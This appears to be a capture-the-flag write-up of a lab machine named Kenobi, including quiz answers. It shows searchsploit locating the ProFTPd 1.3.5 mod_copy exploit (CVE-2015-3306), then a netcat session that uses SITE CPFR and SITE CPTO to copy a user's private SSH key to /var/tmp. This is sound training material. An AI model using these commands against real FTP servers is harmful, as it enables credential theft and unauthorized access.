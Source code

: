 > How many exploits are there for the ProFTPd running?

> Answer: 4

After finding which exploit to use I navigate to the file path provided in Searchsploit, read the exploit, and make sure it will fit my needs. In this case it does, but it is a little too indepth. So I use what the exploit is doing and apply it to my needs. Typically I would [copy](https://www.freecodecamp.org/news/the-linux-cp-command-how-to-copy-files-in-linux/) the exploit to a new file, but in this case I don't need a separate exploit file at all.

```bash
root@ip-10-10-44-242:~# searchsploit -p 37262
  Exploit: ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/37262
     Path: /opt/exploitdb/exploits/linux/remote/37262.rb
    Codes: CVE-2015-3306, OSVDB-120834
 Verified: True
File Type: Ruby script, ASCII text
```

```bash 
cp /opt/exploitdb/exploits/linux/remote/37262.rb ~/Desktop
```

Reading the ProFTPD page for the [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html). I see that I can use the commands SITE CPFR and SITE CPTO to copy Kenobi's  private ssh key to my tmp directory. 

![NetCatCopy](task3_NCExploit.png)

> We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

> Answer: No answer needed

```bash
root@ip-10-10-184-203:~# nc 10.10.48.208 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.208]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
> We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.
